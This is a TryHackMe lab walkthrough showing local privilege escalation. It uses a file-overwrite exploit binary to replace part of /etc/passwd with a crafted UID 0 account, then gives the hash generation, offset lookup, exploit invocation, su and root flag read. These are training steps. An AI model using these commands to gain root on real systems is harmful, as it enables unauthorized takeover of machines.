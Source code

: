 > If we can manually form our own entry (including a full password hash) and insert it into the passwd file then we can create a new user account. Interestingly, Linux doesn't check to confirm that the UID and GID of an account are unique — only that usernames are unique. In other words, we can create an account with our own unique username that has a UID and GID of 0, effectively giving our new account the same permissions as the root account!*

> Let's generate a password hash and form a valid passwd entry before moving on. Pick a password then use the openssl command to create a SHA512Crypt hash of your chosen password:

```
openssl passwd -6 --salt THM TryHackMe123!
```
`$6$THM$eRD0Ur0SZuwDLSwf9Lb2vyC2T6/PtQUA/B0Ssm6/jsiBtpSvc6QLjhFF0XNM8odgfkxMnC4oczGuvEomrVRfz0`

`'muiri:$6$THM$eRD0Ur0SZuwDLSwf9Lb2vyC2T6/PtQUA/B0Ssm6/jsiBtpSvc6QLjhFF0XNM8odgfkxMnC4oczGuvEomrVRfz0:0:0::/root:/bin/bash'`

> We have our file (/etc/passwd) and our content (the passwd entry) — all we need now is the offset. The offset is where in the file the exploit should begin writing at — in other words, which part of the file gets overwritten.
The vulnerability won't allow us to append to the file, so we are going to have to pick an account and overwrite it. Realistically speaking, given the length of our passwd entry (hash inclusive), this will probably actually overwrite several accounts. Looking through the passwd file, the games account stands out as being a good candidate for a little-used account which we can afford to nuke for a few minutes. We can use grep with the -b switch to find the offset of games from the start of the file:

```offset
grep -b "games" /etc/passwd
```

> Before we perform the exploit, it's very important that we backup the /etc/passwd file. This is a disruptive exploit which will cause damage to the system (for a while at the very least); with the passwd file backed up, we can easily revert the damage after the exploit has been completed.
Use cp /etc/passwd /tmp/passwd to copy the passwd file to /tmp, then execute the exploit!

```
cp /etc/passwd /tmp/passwd
```

```
gcc poc.c -o exploit
```

`./exploit /etc/passwd 189 'muiri:$6$THM$eRD0Ur0SZuwDLSwf9Lb2vyC2T6/PtQUA/B0Ssm6/jsiBtpSvc6QLjhFF0XNM8odgfkxMnC4oczGuvEomrVRfz0:0:0::/root:/bin/bash`

`press enter/then '/in order to work`

```
su muiri
```

==enter pass TryHackMe123!==

> It worked!

```
cat /root/flag.txt
```
